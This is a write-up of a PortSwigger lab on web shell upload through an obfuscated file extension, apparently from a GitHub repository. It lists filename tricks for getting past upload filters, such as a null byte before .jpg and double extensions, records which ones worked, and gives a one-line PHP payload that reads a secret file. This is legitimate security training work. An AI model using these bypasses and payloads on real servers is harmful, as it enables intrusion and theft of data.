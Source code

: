 # Web shell upload via obfuscated file extension
# Objective
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
### Upload request example
|![](Images/image-26.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-27.png)|
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
### PHP payload upload test
File extension `.php` is not in the whitelist.
|![](Images/image-28.png)|
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Obfuscating file extension
File extension obfuscation techniques (source [PortSwiggger](https://portswigger.net/web-security/file-upload#exploiting-flawed-validation-of-file-uploads)):
- Multiple extensions - example: `exploit.php.jpg`
- Add trailing characters - example: `exploit.php.`
- URL encoding (or double URL encoding) for dot, slashes - example: `exploit%2Ephp`
- Add semicolons before the file extension - example: `exploit.asp;.jpg`
- Add URL-encoded null byte character before the file extension - example: `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path. 
- Bypass striping filters - example (strip `.php`): `exploit.p.phphp`

Tests:
```
Payload file name: exploit.php.jpg
File was uploaded successfuly but connot be triggered

Payload file name: .htaccess
File was not uploaded successfuly

Payload file name: exploit.php.
File was not uploaded successfuly

Payload file name: exploit%2Ephp
File was not uploaded successfuly

Payload file name: exploit.p.phphp
File was not uploaded successfuly

Payload file name: exploit.php%00.jpg
File was uploaded successfuly

```

|![](Images/image-29.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-30.png)|
| *Triggering uploaded PHP file* |

Payload:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```